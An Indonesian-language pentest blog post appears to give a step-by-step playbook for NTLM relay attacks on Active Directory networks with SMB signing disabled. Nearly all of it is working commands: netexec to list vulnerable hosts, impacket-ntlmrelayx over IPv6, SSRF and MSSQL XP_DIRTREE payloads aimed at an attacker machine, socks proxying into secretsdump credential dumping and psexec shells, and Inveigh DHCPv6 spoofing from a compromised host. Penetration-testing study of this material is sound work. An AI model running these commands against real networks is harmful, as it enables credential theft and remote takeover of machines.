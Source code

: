 ```yaml
---
title: NTLM Relay IPv6 Attack
author: "novran"
date: 2024-11-23 00:00:00 +0700
categories: [Active Directory Pentest, Windows Pentest]
tags: [Active Directory Pentest, Windows Pentest]
mermaid: true
image:
  path: /images/2024-11-23-ntlm-relay-attack-banner.png
  alt: NTLM Relay Attack
---
```


Ketika pengaturan `Signing` pada protokol SMB (Server Message Block) memiliki pengaturan `False` atau dinonaktifkan, maka data yang dikirim antar klien dan server tidak diverifikasi. Sehingga komputer yang menjalankan konfigurasi **SMB Signing False** akan rentan terhadap serangan **NTLM Relay**.

## Let's Do It

```bash
netexec smb <IP_SEGMENT>/24 --gen-relay-list vuln-ntlm.txt
```

![Netexec Detect All Vulnerable Hosts](/images/2024-11-23-ntlm-relay-attack-vulnerable-host.png)

### 1. Wait and See or Trigger It

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug
```

![NTLMRelayX](/images/2024-11-23-ntlm-relay-attack-ntlmrelayx.png)

Pada dasarnya, karena ini adalah serangan Man-in-the-Middle, maka **kalian hanya perlu menunggu saja** dan berharap **ada Host yang melakukan Broadcast** melalui LLMNR/mDNS.

> Namun, jika kalian menemukan kerentanan yang bisa di-**chaining**, seperti SSRF atau mendapatkan akses MSSQL, kalian bisa langsung men-trigger-nya secara langsung, dengan cara mengakses ke mesin kalian secara langsung (menggunakan protokol SMB).

**Trigger It!**

Server-Side Request Forgery.

```
file://<ATTACKER_MACHINE>/attack
```

MSSQL Query.

```
XP_DIRTREE '\\<ATTACKER_MACHINE>\attack', 1, 1
```

**Credential Dumped!**

Jika berhasil, maka `impacket-ntlmrelayx` yang dijalankan tadi akan menghasilkan output seperti ini.

![SAM Pwnd!](/images/2024-11-23-ntlm-relay-attack-sam-pwnd.png)

### 2. Create Relay as Proxy Connection (Socks)

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug -socks
```

```bash
## add to /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

**Dengan ini, kita bisa mengeksekusi mesin target menggunakan...**

```bash
## Remote Credential Dump
proxychains4 -q impacket-secretsdump 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

Atau.

```bash
## Run Shell Session
proxychains4 -q impacket-psexec 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

### 3. Spoofing via Compromised Machine

Setelah membaca dari sumber [ini](https://cloud.tencent.com/developer/article/1956335), Kita juga dapat melakukannya meskipun kondisinya itu _cross-network_, dengan cara melakukan Spoofing menggunakan [Inveigh](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11) (dengan catatan, Spoof melalui mesin yang sudah _compromised_).

```powershell
.\Inveigh.exe -DHCPv6 Y -SpooferIP <ATTACKER_MACHINE>
```

Kurang lebih gambarannya akan seperti ini.

![Relay to SpoofIP](/images/2024-11-23-ntlm-relay-attack-by-spoof-ip.png)

